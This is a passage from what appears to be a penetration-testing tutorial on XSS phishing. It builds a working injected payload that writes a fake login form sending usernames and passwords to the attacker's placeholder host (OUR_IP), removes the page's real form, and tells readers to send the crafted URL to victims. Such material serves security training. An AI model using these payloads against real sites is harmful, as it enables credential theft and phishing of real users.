 To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step.

Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script>
```
### Cleaning Up
We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". 

We should remove the URL field, such that they may think that they have to log in to be able to use the page.

To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking `CTRL+SHIFT+C` and then clicking on the element we need.

As we see in both the source code and the hover text, the `url` form has the id `urlform`:
```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:
```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed.

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:
```html
...PAYLOAD... <!-- 
```

The page now looks like it legitimately requires a login.

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form.
## Credential Stealing
If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`
- This is because our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.
